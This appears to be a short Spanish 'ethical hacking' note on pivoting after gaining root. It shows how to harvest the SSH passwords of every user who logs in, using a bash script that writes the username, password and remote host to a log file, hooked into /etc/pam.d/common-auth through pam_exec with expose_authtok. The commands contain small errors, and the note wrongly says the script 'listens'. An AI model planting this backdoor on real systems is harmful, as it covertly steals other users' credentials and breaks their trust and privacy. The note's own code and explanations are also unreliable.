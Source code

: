 #Pivoting #PinguinoMario #HackingEtico 
Una vez que seamos usuarios root de una máquina, podemos recibir credenciales de ssh de todos los usuarios que entren por SSH; y el proceso será el siguiente:

- PASO 1 - Crear un script llamado no.sh con el siguiente código, que si lo ejecutamos permanecerá a la escucha esperando para recibir credenciales del usuario:
```bash
echo "$(date) $PAM_USER, $(cat-), From: $PAM_RHOST" >> /var/log/dame_contraseña.log
```
![[Pasted image 20230503154621.png]]
- PASO 2 - Editamos el fichero /etc/pam.d/common-auth; y añadimos esta línea justo al final, donde hacemos el llamamiento al script que antes hemos creado:

```bash
auth optional pam_exec.so quier expose_authtok /home/mario/no.sh
```
![[Pasted image 20230503154804.png]]
Por tanto ahora simplemente ejecutamos el script no.sh y estará a la escucha esperando a recibir alguna conexión para enviarnos las credenciales de dicho usuario al fichero /var/log/dame_contraseña.log:
![[Pasted image 20230503154916.png]]
Y ahora si iniciamos sesión por ssh, habremos recibido las credenciales:
![[Pasted image 20230503154956.png]]

